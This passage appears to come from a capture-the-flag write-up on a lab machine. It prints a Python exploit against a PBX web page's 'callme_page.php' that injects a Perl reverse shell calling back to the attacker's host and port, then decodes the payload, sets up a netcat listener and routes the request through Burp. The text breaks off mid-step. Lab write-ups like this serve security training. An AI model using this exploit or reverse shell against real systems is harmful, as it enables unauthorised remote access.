 ```text
mport urllib
rhost="10.10.10.7"
lhost="10.10.14.12"
lport=1234
extension="1000"# Reverse shell payload
url = 'https://'+str(rhost)+'/recordings/misc/callme_page.php?action=c&callmenum='+str(extension)+'@from-internal/n%0D%0AApplication:%20system%0D%0AData:%20perl%20-MIO%20-e%20%27%24p%3dfork%3bexit%2cif%28%24p%29%3b%24c%3dnew%20IO%3a%3aSocket%3a%3aINET%28PeerAddr%2c%22'+str(lhost)+'%3a'+str(lport)+'%22%29%3bSTDIN-%3efdopen%28%24c%2cr%29%3b%24%7e-%3efdopen%28%24c%2cw%29%3bsystem%24%5f%20while%3c%3e%3b%27%0D%0A%0D%0A'urllib.urlopen(url)
```

Before we run the script, let’s URL decode the **url** parameter to see what it’s doing.

```text
'https://'+str(rhost)+'/recordings/misc/callme_page.php?action=c&callmenum='+str(extension)+'@from-internal/n
Application: system
Data: perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"'+str(lhost)+':'+str(lport)+'");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```

It seems like a command injection that sends a reverse shell back to our attack machine. Let’s setup a netcat listener on the configured lhost & lport to receive the reverse shell.

```text
nc -nlvp 1234
```

Run the script.

```text
python 18650.py
```

I get an SSL unsupported protocol error. I tried fixing the error by changing the [python code](https://stackoverflow.com/questions/19268548/python-ignore-certificate-validation-urllib2), however, I couldn’t get it to work. Therefore, the next best solution is to have it go through Burp.

First, change the url parameter from “https” to “http” and the rhost to “localhost”. Next, in Burp go to **Proxy** &gt; **Options** &gt; **Proxy Listeners** &gt; **Add**. In the **Binding** tab, set the port to **80**. In the **Request handling** tab set the **Redirect to host** parameter to **10.10.10.7**, **Redirect to port** parameter to **443** and check the option **Force use of SSL**.

What that does is it redirects localhost to https://10.10.10.7 while passing all the requests and responses through Burp. This way the python script doesn’t have to handle HTTPS and therefore we avoid the SSL error we are getting.

Let’s try running it again.

```text
python 18650.py
```

It runs but we don’t get a shell back. The nice thing about doing this with Burp is that we can see the request & response. In Burp go to **Proxy** &gt; **HTTP history** and click on the request. In the **Request** tab, right click and send it to repeater. As can be seen, the error message we get is as follows.
